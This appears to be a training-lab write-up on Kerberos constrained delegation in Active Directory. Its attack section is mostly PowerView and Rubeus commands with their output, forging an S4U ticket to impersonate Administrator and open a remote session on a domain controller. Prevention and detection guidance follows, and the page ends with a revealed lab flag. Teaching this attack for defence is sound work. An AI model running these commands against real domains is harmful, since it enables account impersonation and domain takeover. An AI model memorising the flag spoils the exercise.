

import RevealFlag from '@site/src/components/RevealFlag';

# Kerberos Constrained Delegation

## Description

`Kerberos Delegation` enables an application to access resources hosted on a different server; for example, instead of giving the service account running the web server access to the database directly, we can allow the account to be delegated to the SQL server service. Once a user logs into the website, the web server service account will request access to the SQL server service on behalf of that user, allowing the user to get access to the content in the database that they’ve been provisioned to without having to assign any access to the web server service account itself.

We can configure three types of delegations in Active Directory:

- `Unconstrained Delegation` *(most permissive/broad)*
- `Constrained Delegation`
- `Resource-based Delegation`

Knowing and understanding that `any` type of delegation is a possible security risk is paramount, and we should avoid it unless necessary.

As the name suggests, `unconstrained delegation` is the most permissive, allowing an account to delegate to any service. In `constrained delegation`, a user account will have its properties configured to specify which service(s) they can delegate. For `resource-based delegation`, the configuration is within the computer object to whom delegation occurs. In that case, the computer is configured as `I trust only this/these accounts`. It is rare to see `Resource-based delegation` configured by an Administrator in production environments *(threat agents often abuse it to compromise devices)*. However, `Unconstrained` and `Constrained` delegations are commonly encountered in production environments.

---

## Attack

We will only showcase the abuse of `constrained delegation`; when an account is trusted for delegation, the account sends a request to the `KDC` stating, "Give me a Kerberos ticket for user YYYY because I am trusted to delegate this user to service ZZZZ", and a Kerberos ticket is generated for user YYYY (without supplying the password of user YYYY). It is also possible to delegate to another service, even if not configured in the user properties. For example, if we are trusted to delegate for `LDAP`, we can perform protocol transition and be entrusted to any other service such as `CIFS` or `HTTP`.

To demonstrate the attack, we assume that the user `web_service` is trusted for delegation and has been compromised. The password of this account is `Slavi123`. To begin, we will use the `Get-NetUser` function from [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to enumerate user accounts that are trusted for constrained delegation in the domain:

:::note
Note: Throughout the exercise, please use the `PowerView-main.ps1` located in `C:\Users\bob\Downloads` when enumerating with the `-TrustedToAuth` parameter.
:::

```powershell
PS C:\Users\bob\Downloads> Get-NetUser -TrustedToAuth

logoncount                    : 23
badpasswordtime               : 12/31/1601 4:00:00 PM
distinguishedname             : CN=web service,CN=Users,DC=eagle,DC=local
objectclass                   : {top, person, organizationalPerson, user}
displayname                   : web service
lastlogontimestamp            : 10/13/2022 2:12:22 PM
userprincipalname             : webservice@eagle.local
name                          : web service
objectsid                     : S-1-5-21-1518138621-4282902758-752445584-2110
samaccountname                : webservice
codepage                      : 0
samaccounttype                : USER_OBJECT
accountexpires                : NEVER
countrycode                   : 0
whenchanged                   : 10/13/2022 9:53:09 PM
instancetype                  : 4
usncreated                    : 135866
objectguid                    : b89f0cea-4c1a-4e92-ac42-f70b5ec432ff
lastlogoff                    : 1/1/1600 12:00:00 AM
msds-allowedtodelegateto      : {http/DC1.eagle.local/eagle.local, http/DC1.eagle.local, http/DC1,
                                http/DC1.eagle.local/EAGLE...}
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=eagle,DC=local
dscorepropagationdata         : 1/1/1601 12:00:00 AM
serviceprincipalname          : {cvs/dc1.eagle.local, cvs/dc1}
givenname                     : web service
lastlogon                     : 10/14/2022 2:31:39 PM
badpwdcount                   : 0
cn                            : web service
useraccountcontrol            : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
whencreated                   : 10/13/2022 8:32:35 PM
primarygroupid                : 513
pwdlastset                    : 10/13/2022 10:36:04 PM
msds-supportedencryptiontypes : 0
usnchanged                    : 143463
```


We can see that the user `web_service` is configured for delegating the HTTP service to the Domain Controller `DC1`. The HTTP service provides the ability to execute `PowerShell Remoting`. Therefore, any threat actor gaining control over `web_service` **can request a Kerberos ticket for any user in Active Directory** and **use it to connect to** `DC1` over `PowerShell Remoting`.

Before we request a ticket with `Rubeus` (which expects a password hash instead of cleartext for the `/rc4` argument used subsequently), we need to use it to convert the plaintext password `Slavi123` into its `NTLM hash` equivalent:

```powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe hash /password:Slavi123

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: Calculate Password Hash(es)

[*] Input password             : Slavi123
[*]       rc4_hmac             : FCDC65703DD2B0BD789977F1F3EEAECF

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```


> Then, we will use `Rubeus` to get a `ticket` for the `Administrator` account:

```powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: S4U

[*] Using rc4_hmac hash: FCDC65703DD2B0BD789977F1F3EEAECF
[*] Building AS-REQ (w/ preauth) for: 'eagle.local\webservice'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFiDCCBYSgAwIBBaEDAgEWooIEnjCCBJphggSWMIIEkqADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtlYWdsZS5sb2NhbKOCBFgwggRUoAMCARKhAwIBAqKCBEYEggRCI1ghAg72
      moqMS1skuua6aCpknKibZJ6VEsXfyTZgO5IKRDnYHnTJT6hwywSoXpcxbFDDlakB56re10E6f6H9u5Aq
	  ...
	  ...
	  ...
[+] Ticket successfully imported!
```


> To confirm that `Rubeus` injected the ticket in the current session, we can use the `klist` command:

```powershell
PS C:\Users\bob\Downloads> klist

Current LogonId is 0:0x88721

Cached Tickets: (1)

#0>     Client: Administrator @ EAGLE.LOCAL
        Server: http/dc1 @ EAGLE.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 10/13/2022 14:56:07 (local)
        End Time:   10/14/2022 0:56:07 (local)
        Renew Time: 10/20/2022 14:56:07 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```


With the ticket being available, we can connect to the Domain Controller impersonating the account `Administrator`:

```powershell
PS C:\Users\bob\Downloads> Enter-PSSession dc1
[dc1]: PS C:\Users\Administrator\Documents> hostname
DC1
[dc1]: PS C:\Users\Administrator\Documents> whoami
eagle\administrator
[dc1]: PS C:\Users\Administrator\Documents>
```


If the last step fails (we may need to do `klist purge`, obtain new tickets, and try again by rebooting the machine). We can also request tickets for multiple services with the `/altservice` argument, such as `LDAP`, `CFIS`, `time`, and `host`.

---

## Prevention

Fortunately, when designing Kerberos Delegation, Microsoft implemented several protection mechanisms; however, it did not enable them by default to any user account. There are two direct ways to prevent a ticket from being issued for a user via delegation:

- Configure the property `Account is sensitive and cannot be delegated` for **all privileged users**.
- Add privileged users to the `Protected Users` group: **this membership automatically applies the protection mentioned above** *(however, it is not recommended to use Protected Users without first understanding its potential implications)*.

We should treat **any account configured for delegation** as `extremely privileged`, regardless of its actual privileges *(such as being only a Domain user)*. `Cryptographically secure passwords are a must`, as we don't want `Kerberoasting` giving threat agents an account with delegation privileges.

---

## Detection

Correlating users' behavior is the best technique to detect `constrained delegation` abuse. Suppose we know the location and time a user regularly uses to log in. In that case, it will be easy to alert on other *(suspicious)* behaviors—for example, consider the account `Administrator` in the attack described above. If a mature organization uses `Privileged Access Workstations (PAWs)`, they should be alert to any privileged users not authenticating from those machines, proactively monitoring [events with the ID 4624](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4624) *(successful logon)*.

In some occasions, a successful logon attempt with a delegated ticket will contain information about the ticket's issuer under the `Transited Services` attribute in the events log. This attribute is normally populated if the logon resulted from an `S4U (Service For User)` logon process.

`S4U` is **a Microsoft extension** to the `Kerberos protocol` that allows an application service **to obtain a Kerberos service ticket on behalf of a user**; if we recall from the attack flow when utilizing `Rubeus`, we specified this `S4U` extension. Here is an example logon event by using the web service to generate a ticket for the user Administrator, which then was used to connect to the Domain Controller *(precisely as the attack path above)*:



---

## Questions

### `1. Use the techniques shown in this section to gain access to the DC1 domain controller and submit the contents of the flag.txt file.`

<RevealFlag>{`db0d0630064747072a7da3f7c3b4069e`}</RevealFlag>

#### PowerView

```powershell
. .\PowerView-main.ps1
```

```powershell

```